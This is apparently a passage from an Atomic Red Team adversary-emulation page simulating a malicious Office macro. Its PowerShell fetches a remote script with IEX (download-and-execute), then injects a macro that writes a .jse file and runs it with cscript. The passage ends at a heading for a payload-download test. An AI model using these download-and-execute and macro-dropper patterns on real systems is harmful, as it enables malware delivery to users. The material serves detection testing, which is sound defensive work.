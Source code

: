 **Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | String | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - OSTap Payload Download
Uses cscript //E:jscript to download a file
